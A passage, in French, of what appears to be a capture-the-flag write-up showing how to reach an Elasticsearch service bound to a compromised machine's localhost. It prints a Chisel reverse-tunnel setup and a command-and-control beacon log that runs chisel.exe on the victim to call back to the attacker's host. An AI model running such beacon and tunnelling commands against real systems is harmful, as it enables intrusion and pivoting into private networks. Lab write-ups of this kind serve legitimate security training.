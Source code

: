 3. Maintenant qu'on intercepte les requetes, il faut pouvoir les renvoyer, le problème c'est que le service Elasticsearch tourne sur un port local. Pour quand même y accéder on peut utiliser un programme de `tunelling` comme [Chisel](https://github.com/jpillora/chisel.git) par exemple. Sur notre machine on lance chisel sur le port `8888` comme ceci:

```
chisel server --reverse --port 8888
2024/01/18 15:50:17 server: Reverse tunnelling enabled
2024/01/18 15:50:17 server: Fingerprint aMoxp6TruQ5Q+hycxvGU5lcZDl1r+9Chm6EyWbYyrJM=
2024/01/18 15:50:17 server: Listening on http://0.0.0.0:8888
2024/01/18 15:50:39 server: session#1: Client version (1.9.1) differs from server version (1.9.1-0kali1)
2024/01/18 15:50:39 server: session#1: tun: proxy#R:7070=>localhost:9200: Listening
```

Et on va forward le trafic qui arrive sur notre port local 7070 (car c'est là que burpsuite va renvoyer les requetes reçues) vers le port 9200 de la box comme ceci:

```
[01/18 15:50:39] beacon> run chisel.exe client 10.10.14.207:8888 R:7070:localhost:9200
[01/18 15:50:39] [*] Tasked beacon to run: chisel.exe client 10.10.14.207:8888 R:7070:localhost:9200
[01/18 15:50:39] [+] host called home, sent: 75 bytes
[01/18 15:50:49] [+] received output:
2024/01/18 12:50:41 client: Connecting to ws://10.10.14.207:8888
2024/01/18 12:50:41 client: Connected (Latency 25.4875ms)
```

Et si maintenant on lance le programme a.exe sur la box:

<div>
    <img src="./assets/capture.PNG", style="max-width:150%;margin-left: 50%;transform: translateX(-50%);">
</div>
